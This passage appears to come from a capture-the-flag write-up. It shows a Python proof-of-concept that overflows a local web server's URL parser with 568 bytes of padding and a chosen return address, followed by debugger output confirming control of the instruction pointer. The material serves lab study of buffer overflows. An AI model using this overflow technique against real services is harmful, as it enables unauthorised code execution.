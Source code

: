 ## Test POC {#test-poc id="8dd9bd94-b4fd-499f-98da-52d7069cf5b9"}

Run this simple POC:

``` python
root@--name:/ctf/work# cat padding.py 
import requests
import struct
import socket

padding = "A" * 568
RIP = 0x424242424242

payload = ""
payload += padding
payload += struct.pack("<Q", RIP)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("localhost", 9999))
s.send("GET /{} \n\n".format(payload))
s.close()
```

As soon as we hit a break point:

``` example
 ► f 0           40178b url_decode+107
   f 1           4018af parse_request+287
   f 2           401e23 process.part+67
   f 3     424242424242
   f 4           400fa0 _start
   f 5       10fd963730
   f 6  100007f1ccf0002
   f 7                0
Breakpoint *0x000000000040178b
pwndbg> c
```

We can se our 424242424242 on the stack, and continue:

``` example
Program received signal SIGSEGV (fault address 0x424242424242)
```

And as expected:

![](/images/smasher-2018-11-22/2025-01-18_19-16-42_image.png)
